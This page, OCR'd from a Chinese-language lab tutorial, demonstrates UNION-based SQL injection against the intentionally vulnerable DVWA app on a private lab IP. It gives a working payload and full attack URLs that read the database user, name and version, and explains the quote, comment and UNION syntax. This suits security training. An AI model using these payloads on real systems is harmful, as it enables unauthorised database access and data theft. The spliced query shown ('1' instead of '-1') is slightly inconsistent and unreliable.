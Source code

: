##获取数据库基本信息

实际的查询语句是

```
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```

sql注入url地址

http://192.168.56.80/dvwacn/vulnerabilities/sqli/


用户ID输入：

```
id=-1' UNION SELECT 1, CONCAT_WS(CHAR(32,58,32),user(),database(),version())#
```

实际上拼接的sql语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT 1, CONCAT_WS(CHAR(32,58,32),user(),database(),version())#'
```

> 
上面`1'`后面的单引号作用是闭合`user_id = '$id`'中的单引号,`#`号的作用是注释`user_id = '$id'`中原有的后面的单引号


完整的sql注入url

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1%27%20UNION%20SELECT%201,%20CONCAT_WS(CHAR(32,58,32),user(),database(),version())%23&Submit=%E7%A1%AE%E5%AE%9A
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1' UNION SELECT 1, CONCAT_WS(CHAR(32,58,32),user(),database(),version())#&Submit=确定
```

###符号说明


- `'`=单引号

双引号里面的字段会经过编译器解释然后再当作HTML代码输出

单引号里面的不需要解释，直接输出

- `#`=单行注释符


###UNION

联合的意思，即把两次或多次查询结果合并起来。

用于合并两个或多个 SELECT 语句的结果集，并消去表中任何重复行。

UNION 内部的 SELECT 语句必须拥有相同数量的列，列也必须拥有相似的数据类型。

同时，每条 SELECT 语句中的列的顺序必须相同.
